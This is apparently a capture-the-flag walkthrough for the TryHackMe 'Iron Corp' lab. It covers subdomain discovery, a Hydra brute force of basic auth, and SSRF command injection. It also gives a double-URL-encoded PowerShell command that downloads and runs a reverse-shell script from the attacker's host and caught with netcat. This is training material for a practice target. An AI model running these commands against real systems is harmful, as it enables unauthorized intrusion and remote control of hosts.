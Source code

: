 # [Iron Corp](https://tryhackme.com/room/ironcorp)

## Can you get access to Iron Corp's system?

# Iron Corp

### user.txt

1. Add the target IP to the hosts file for proper domain resolution

```bash
sudo echo "IP ironcorp.me" >> /etc/hosts
```

2. Perform port scan to identify running services
   - **Results:** The scan reveals services running on multiple ports, including web services on port 11025.

```bash
nmap -p- -sV ironcorp.me
```

[SCREEN01]

3. Attempt a DNS zone transfer to discover additional subdomains
   - **Results:** The zone transfer reveals two additional subdomains: `admin.ironcorp.me` and `internal.ironcorp.me`.

```bash
dig axfr @ironcorp.me ironcorp.me
```

[SCREEN02]

4. Add the discovered subdomains to the hosts file

```bash
sudo sh -c 'echo "IP admin.ironcorp.me" >> /etc/hosts && echo "IP internal.ironcorp.me" >> /etc/hosts'
```

5. The admin panel at `http://admin.ironcorp.me:11025/` requires HTTP Basic Authentication. Use Hydra to brute force the credentials
   - **Credentials found:** `admin:password123`

```bash
hydra -l admin -P /root/Tools/wordlists/rockyou.txt -s 11025 admin.ironcorp.me http-get
```

[SCREEN03]

6. After authenticating to the admin panel, test for SSRF vulnerabilities. The application accepts a parameter `r` that makes requests to internal services
   - Test command injection through SSRF: `http://admin.ironcorp.me:11025/?r=http://internal.ironcorp.me:11025/name.php?name=test|whoami`
   - **Result:** Command execution confirmed - returns `nt authority\system`, indicating the web service runs with high privileges.

[SCREEN04]

7. Set up a local HTTP server to host the PowerShell reverse shell payload

```bash
python -m SimpleHTTPServer
```

8. Set up a netcat listener to catch the reverse shell

```bash
nc -lvnp 4444
```

9. Download and modify a PowerShell reverse shell script from: [github.com/vulware/powershell-reverse-shell-](https://github.com/vulware/powershell-reverse-shell-/blob/master/powershell%20tcp%20reverse%20shell.ps1)

   - Update the IP address and port in the script to match your attacking machine

10. The SSRF vulnerability requires double URL encoding to bypass filters. Encode the following PowerShell command:

```powershell
powershell.exe -c iex(new-object net.webclient).downloadstring('http://IP:8000/shell.ps1')
```

Using [CyberChef](https://gchq.github.io/CyberChef/), double URL encode the payload:

```
powershell%252Eexe%2520%252Dc%2520iex%2528new%252Dobject%2520net%252Ewebclient%2529%252Edownloadstring%2528%2527http%253A%252F%252F10%252E10%252E240%252E255%253A8000%252Fshell%252Eps1%2527%2529
```

[SCREEN06]

11. Execute the payload through the SSRF vulnerability: `http://admin.ironcorp.me:11025/?r=http://internal.ironcorp.me:11025/name.php?name=test|powershell%252Eexe%2520%252Dc%2520iex%2528new%252Dobject%2520net%252Ewebclient%2529%252Edownloadstring%2528%2527http%253A%252F%252F10%252E10%252E240%252E255%253A8000%252Fshell%252Eps1%2527%2529`

    - This should trigger the reverse shell connection to your netcat listener

12. Navigate to the user directory and retrieve the first flag

```bash
cd C:\Users
more Administrator\Desktop\user.txt
```

[SCREEN05]

---

### root.txt

1. Check access permissions for potential privilege escalation paths, and access the SuperAdmin directory to retrieve the root flag

```bash
get-acl c:\users\SuperAdmin | fl
type c:\users\superadmin\desktop\root.txt
```

[SCREEN07]
